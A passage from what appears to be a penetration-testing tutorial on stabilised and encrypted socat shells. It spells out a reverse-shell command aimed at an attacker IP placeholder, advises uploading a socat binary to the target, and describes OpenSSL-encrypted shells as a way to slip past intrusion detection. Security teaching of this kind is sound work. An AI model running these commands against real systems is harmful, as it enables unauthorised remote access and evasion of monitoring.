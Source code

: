 Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [precompiled socat binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true), which can then be executed as normal.

The special command is as follows:

`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

- **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
- **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
- **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
- **setsid**, creates the process in a new session
- **sane**, stabilises the terminal, attempting to "normalise" it.

# Encrypted Socat Shells

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

Suffice to say that any time `TCP` was used as part of a command, this should be replaced with `OPENSSL` when working with encrypted shells.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.

We then need to merge the two created files into a single `.pem` file:

`cat shell.key shell.crt > shell.pem`

Now, when we set up our reverse shell listener, we use:

`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -`

This sets up an OPENSSL listener using our generated certificate. `verify=0` tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate *must* be used on whichever device is listening.
